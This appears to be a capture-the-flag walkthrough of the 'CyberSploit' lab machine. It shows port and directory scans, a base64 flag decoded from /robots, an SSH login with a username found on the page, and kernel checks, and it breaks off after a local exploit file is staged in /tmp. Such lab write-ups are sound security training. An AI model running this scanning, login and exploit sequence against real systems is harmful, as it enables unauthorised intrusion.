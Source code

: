 ```
> rustscan -b 1000 -u 5000 -r 0-65535 -a 192.168.187.92 -- -Pn
```
```
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Nmap? More like slowmap.🐢

[~] The config file is expected to be at "/home/superuser/.rustscan.toml"
[~] Automatically increasing ulimit value to 5000.
Open 192.168.187.92:22
Open 192.168.187.92:80
[~] Starting Script(s)
[>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")

Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
[~] Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-23 03:25 EDT
Initiating Parallel DNS resolution of 1 host. at 03:25
Completed Parallel DNS resolution of 1 host. at 03:25, 0.01s elapsed
DNS resolution of 1 IPs took 0.01s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating Connect Scan at 03:25
Scanning 192.168.187.92 [2 ports]
Discovered open port 80/tcp on 192.168.187.92
Discovered open port 22/tcp on 192.168.187.92
Completed Connect Scan at 03:25, 0.17s elapsed (2 total ports)
Nmap scan report for 192.168.187.92
Host is up, received user-set (0.17s latency).
Scanned at 2023-10-23 03:25:19 EDT for 0s

PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.20 seconds
```

```
http://192.168.187.92/
```
![image](https://github.com/karanshergill/OffSec-Play/assets/83878909/2b132ff5-f7b3-431e-b8d8-aa32c3efb864)
![image](https://github.com/karanshergill/OffSec-Play/assets/83878909/c944b990-66f2-4a8b-b39b-9d3b0cb48df3)
```
username:itsskv
```

Feroxbuster
```
> feroxbuster -u http://192.168.187.92 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt --no-recursion --dont-extract-links --random-agent --filter-status 404

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.10.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://192.168.187.92
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
 💢  Status Code Filters   │ [404]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ Random
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🏁  HTTP methods          │ [GET]
 🚫  Do Not Recurse        │ true
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
403      GET       10l       30w        -c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
404      GET        9l       32w        -c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET       50l      133w     2333c http://192.168.187.92/
200      GET       50l      133w     2333c http://192.168.187.92/index
200      GET        1l        1w       53c http://192.168.187.92/robots
200      GET        0l        0w  3757743c http://192.168.187.92/hacker
[####################] - 5m     87650/87650   0s      found:4       errors:0      
[####################] - 5m     87650/87650   290/s   http://192.168.187.92/  
```

```
http://192.168.187.92/robots
```
![image](https://github.com/karanshergill/OffSec-Play/assets/83878909/9b2f982e-ac4d-4d7e-9b4d-c2728b57dc52)
```
> echo "Y3liZXJzcGxvaXR7eW91dHViZS5jb20vYy9jeWJlcnNwbG9pdH0=" | base64 --decode
cybersploit{youtube.com/c/cybersploit}%   
```

SSH as `itsskv`
```
> ssh itsskv@192.168.187.92
```
![image](https://github.com/karanshergill/OffSec-Play/assets/83878909/03023a8f-5f2f-449d-bc58-2fdfb37d81f3)

```
itsskv@cybersploit-CTF:~$ uname -a
Linux cybersploit-CTF 3.13.0-32-generic #57~precise1-Ubuntu SMP Tue Jul 15 03:50:54 UTC 2014 i686 athlon i386 GNU/Linux
itsskv@cybersploit-CTF:~$ cat /etc/issue
Ubuntu 12.04.5 LTS \n \l
```
![image](https://github.com/karanshergill/OffSec-Play/assets/83878909/340443b1-3c1f-4754-a82b-3ef77be63321)


![image](https://github.com/karanshergill/OffSec-Play/assets/83878909/43412bd1-d9a0-4281-9181-b5bfb342aba9)
```
itsskv@cybersploit-CTF:~$ cd /tmp
itsskv@cybersploit-CTF:/tmp$ nano exploit.c
itsskv@cybersploit-CTF:/tmp$ chmod +x exploit.c 
```
![image](https://github.com/karanshergill/OffSec-Play/assets/83878909/8480e4ea-72ec-499a-bb79-496f5e2570a2)

